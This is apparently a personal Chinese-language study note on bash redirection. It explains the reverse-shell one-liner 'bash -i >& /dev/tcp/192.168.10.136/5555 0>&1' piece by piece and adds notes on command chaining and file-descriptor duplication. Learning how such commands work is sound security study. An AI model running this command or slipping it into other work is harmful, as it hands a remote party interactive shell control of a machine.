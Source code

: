 ```yaml
---
title: 反弹shell
date: 2023-04-24 17:12:51
tags:
---
```




# cmd
& 和||前后的命令无论真假都全部执行
&&和|前命令为真，后命令才执行


# 反弹shell
```bash 
bash -i >& /dev/tcp/192.168.10.136/5555 0>&1   这段代码是一个bash命令，用于在一个交互式的shell中执行命令。
```
1. bash -i 启动一个交互式的shell，即可以接受用户输入的shell

2. \>& /dev/tcp/192.168.10.136/5555：将标准输出和标准错误重定向到一个TCP连接，连接的目标地址是192.168.10.136，端口号是5555。这意味着shell中执行的任何命令的输出都会发送到这个地址。

3. 0>&1 将标准输入重定向到标准输出，即从TCP连接中读取输入。这意味着shell可以接受从这个地址发送过来的命令。

综上，这段代码的作用是创建一个反向shell，即在目标机器上运行一个shell，然后通过网络连接将其控制权交给攻击者。这是一种常见的渗透测试和黑客攻击的技术，可以让攻击者在目标机器上执行任意命令。

&>和>&含义相同都是：都是将标准错误输出和标准输出重定向

# 文件描述符的复制

格式： [n]<&[m] / [n]>&[m] **(这里所有字符之间不要有空格)**

说明：

1）这里两个**都是将文件描述符 n 复制到 m** ，两者的区别是，前者是以只读的形式打开，后者是以写的形式打开

**因此 0<&1 和 0>&1 是完全等价的（读/写方式打开对其没有任何影响）**

2）这里的& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符

